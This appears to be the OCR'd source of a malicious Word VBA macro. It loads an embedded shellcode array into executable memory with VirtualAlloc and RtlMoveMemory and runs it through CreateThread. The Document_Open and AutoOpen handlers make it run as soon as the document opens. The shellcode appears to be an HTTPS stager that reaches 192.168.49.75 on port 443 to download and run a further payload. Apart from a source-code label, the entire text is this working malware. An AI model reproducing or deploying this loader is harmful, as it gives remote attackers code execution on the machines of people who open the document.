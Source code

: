 Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Function MyMacro()
 Dim buf As Variant
 Dim addr As LongPtr
 Dim counter As Long
 Dim data As Long
 Dim res As Long
 buf = Array(252, 232, 143, 0, 0, 0, 96, 137, 229, 49, 210, 100, 139, 82, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 49, 192, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 73, 117, 239, 82, 87, 139, 82, 16, 139, 66, 60, 1, 208, 139, 64, 120, 133, 192, 116, 76, 1, 208, 80, 139, 72, 24, 139, 88, 32, 1, 211, 133, 201, 116, 60, 49, 255, _
 73, 139, 52, 139, 1, 214, 49, 192, 193, 207, 13, 172, 1, 199, 56, 224, 117, 244, 3, 125, 248, 59, 125, 36, 117, 224, 88, 139, 88, 36, 1, 211, 102, 139, 12, 75, 139, 88, 28, 1, 211, 139, 4, 139, 1, 208, 137, 68, 36, 36, 91, 91, 97, 89, 90, 81, 255, 224, 88, 95, 90, 139, 18, 233, 128, 255, 255, 255, 93, 104, 110, 101, 116, 0, 104, 119, 105, 110, 105, 84, _
 104, 76, 119, 38, 7, 255, 213, 49, 219, 83, 83, 83, 83, 83, 232, 62, 0, 0, 0, 77, 111, 122, 105, 108, 108, 97, 47, 53, 46, 48, 32, 40, 87, 105, 110, 100, 111, 119, 115, 32, 78, 84, 32, 54, 46, 49, 59, 32, 84, 114, 105, 100, 101, 110, 116, 47, 55, 46, 48, 59, 32, 114, 118, 58, 49, 49, 46, 48, 41, 32, 108, 105, 107, 101, 32, 71, 101, 99, 107, 111, _
 0, 104, 58, 86, 121, 167, 255, 213, 83, 83, 106, 3, 83, 83, 104, 187, 1, 0, 0, 232, 98, 1, 0, 0, 47, 67, 49, 90, 53, 84, 57, 114, 120, 57, 54, 57, 87, 79, 86, 99, 52, 78, 53, 111, 85, 67, 119, 87, 77, 72, 49, 119, 69, 78, 83, 104, 48, 74, 78, 119, 106, 95, 115, 70, 81, 115, 48, 55, 100, 111, 105, 105, 113, 83, 49, 54, 86, 86, 68, 74, _
 50, 53, 75, 104, 48, 56, 87, 49, 73, 100, 48, 95, 83, 121, 109, 77, 106, 84, 119, 110, 112, 112, 85, 66, 78, 110, 65, 55, 83, 109, 84, 122, 48, 84, 108, 109, 95, 117, 76, 65, 82, 54, 97, 122, 117, 85, 83, 68, 74, 56, 67, 89, 113, 116, 50, 112, 87, 56, 118, 104, 118, 53, 89, 53, 69, 101, 112, 103, 72, 118, 71, 84, 117, 49, 115, 121, 71, 80, 90, 77, _
 83, 52, 103, 77, 56, 65, 113, 52, 52, 102, 102, 81, 117, 81, 69, 56, 75, 102, 119, 102, 49, 117, 108, 116, 101, 99, 51, 67, 106, 79, 84, 53, 68, 85, 109, 97, 78, 49, 114, 71, 72, 109, 119, 111, 122, 76, 49, 119, 65, 54, 54, 76, 109, 110, 73, 73, 104, 117, 97, 97, 54, 97, 50, 101, 116, 73, 72, 84, 85, 65, 100, 79, 104, 73, 0, 80, 104, 87, 137, 159, _
 198, 255, 213, 137, 198, 83, 104, 0, 50, 232, 132, 83, 83, 83, 87, 83, 86, 104, 235, 85, 46, 59, 255, 213, 150, 106, 10, 95, 104, 128, 51, 0, 0, 137, 224, 106, 4, 80, 106, 31, 86, 104, 117, 70, 158, 134, 255, 213, 83, 83, 83, 83, 86, 104, 45, 6, 24, 123, 255, 213, 133, 192, 117, 20, 104, 136, 19, 0, 0, 104, 68, 240, 53, 224, 255, 213, 79, 117, 205, 232, _
 74, 0, 0, 0, 106, 64, 104, 0, 16, 0, 0, 104, 0, 0, 64, 0, 83, 104, 88, 164, 83, 229, 255, 213, 147, 83, 83, 137, 231, 87, 104, 0, 32, 0, 0, 83, 86, 104, 18, 150, 137, 226, 255, 213, 133, 192, 116, 207, 139, 7, 1, 195, 133, 192, 117, 229, 88, 195, 95, 232, 107, 255, 255, 255, 49, 57, 50, 46, 49, 54, 56, 46, 52, 57, 46, 55, 53, 0, 187, 224, _
 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

 addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

 For counter = LBound(buf) To UBound(buf)
 data = buf(counter)
 res = RtlMoveMemory(addr + counter, data, 1)
 Next counter

 res = CreateThread(0, 0, addr, 0, 0, 0)
End Function
Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub